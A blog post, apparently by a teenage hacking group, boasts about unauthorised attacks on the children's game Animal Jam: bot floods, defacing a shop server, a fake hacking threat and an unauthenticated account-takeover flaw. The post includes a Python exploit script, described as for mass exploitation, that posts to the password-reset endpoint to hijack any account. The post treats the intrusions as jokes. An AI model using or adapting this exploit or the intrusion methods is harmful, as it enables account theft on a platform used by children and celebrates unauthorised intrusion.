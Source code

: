 ```yaml
---
layout: post
title: "Electric Boogaloo: Hacking Animal Jam"
subtitle: "~ AKA, how we pwned Animal Jam ~"
date: 2021-9-7
author: chob
tags: pentesting
finished: true
excerpt_separator: <!--more-->
---
```


> **DISCLAIMER**: The aim of this post is not to offend or attack anyone. Instead it is to inform to you the story about how Animal Jam was pwned by us (AstroSquad). I do not condone malicious behavior. Thank you for understanding.

# Preface
As the title suggests, this post will touch on how me and a few other junior security researchers (also nicknamed "AstroSquad") were able to "hack" or "pwn" a poorly secured kids game called "Animal Jam". <!--more--> <br>

This all started when one of our researchers (psuedo named "Moon") looked into Animal Jam, he messed around with the API and told us that there wasn't a rate limit on the RPS (Request Per Second), one of us wrote a script to automate the registration process and made hundreds of bots that joined the game servers which froze players clients. They shortly added rate limit globally to the API. That was only the start, on August 6 2020, another one of our researchers (psuedo named "HellSec") found the IP of one of their boxes, we assumed that we couldn't get into it at first, but within a few hours, we managed to pwn the box. Surprisingly there was not much on the box, it was a AWS box and it was the box for the Animal Jam shop (**shop.animaljam.com**). With a limited time, we made a simple deface page and overwrote it to the index page.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png" target="_blank"><img class="centerImgMedium" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png"></a>

As you can see from the compilation above, they believed we had a apparent "ip logger" and other malicious items, this gave us a notorious reputation as this group of 40 year olds in their mothers basement that are very **1337**, which was not the case. From there, we wanted to test how much the community and the company WildWorks was afraid of apparent fake threats. So around October 2020, we made a threat that we were going to "hack" Animal Jam on halloween, the community freaked and made a bunch of YouTube videos with WildWorks putting their servers on lockdown. It was the biggest lawl for us. <br>

Now that you understand the context before the main pwn; without further ado, let's get into the main pwn. On August 16, 2021, we discovered a 0day **no-auth** full account takeover on Animal Jam. How? simple. A fucking password reset endpoint. Let me repeat that, a fucking **password reset endpoint**, someone must've been some crack while writing the endpoint lol (╯°□°）╯︵ ┻━┻.

****
# Discovering the vulnerability
Basically, one of our researchers used Fiddler to capture all the traffic coming from the Animal Jam application because he was capturing all the traffic he managed to come across the `/disable` endpoint. Every account on Animal Jam is linked to a certain "parent account", and since he got the endpoint for `/disable` he was able to look at the post data (the data that is sent with the post request) he noticed on the post data you were able to send a custom email in the post data so he replaced the email, not expecting anything until.. he recieved a email from Animal Jam and funny enough, once he clicked on the disable account link, it automatically overrided the email that is already linked to the account with the custom email you put in.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif"></a>

Only issue with this is that it didn't disable the player, but knowing it did link the account, he searched for other endpoints using Fiddler that had the same post data requirements, until.. he found the `/send_password_reset` endpoint and by sending the request he was able to takeover ANY players account by sending a post request with the generosity with of course, no authentication at all. He then alerted us about this and showed it wasn't a joke on a screenshare.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg"></a>

****
# Mass Exploitation
Now we know the vulnerability, how do we use it on a large scale attack? Simple! All we need to do is write a script to send a post request with the post data and the target with a burner email.

### - Writing the exploit using python3
Lets start by making a Python script and then importing the request library for sending the post request and sys for argument handling and then supplying the endpoint with the request:
```python
#!/usr/env/python3
import requests
import sys

class Exploit:

    def __init__(self, username, email):
        self.username = username
        self.email = email

    def execute(self):
        endpoint = f'https://api.animaljam.com/game_account/{username}/send_password_reset/desktop'
        return requests.post(url=endpoint, data={'email': email, 'user_name': username}, headers={'auth': 'null'})

def main():
    if len(sys.argv) < 3:
        print(f'Usage: py {sys.argv[0]} <USERNAME> <YOUR_EMAIL>')
        sys.exit()

    username = sys.argv[1]
    email = sys.argv[2]

    Exploit(username, email).execute()

if __name__ == '__main__':
    main()
```
and **PWNED**!! Now you can takeover anyones account just by supplying the username and a burner email lol. <br>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png"></a>

Although it was patched due to the security advisory we released the next day because Animal Jam was having some issues making a patch lol, here's a gif & a image of us on the AJHQ account on the parents dashboard using this exploit.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif"></a>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png"></a>

****
# Conclusion
This company "Animal Jam" is a example of greed over good security, if any companies are reading this, don't be like these guys, but hey,
thank you for reading if you got this far, this is my first blog i've made and I'll be making more very soon and this was funny fun to make, if you enjoyed reading this, go ahead and share it (ﾟДﾟ)y─┛~~ #HackThePlanet #HTP #TrollThePlanet #TTP
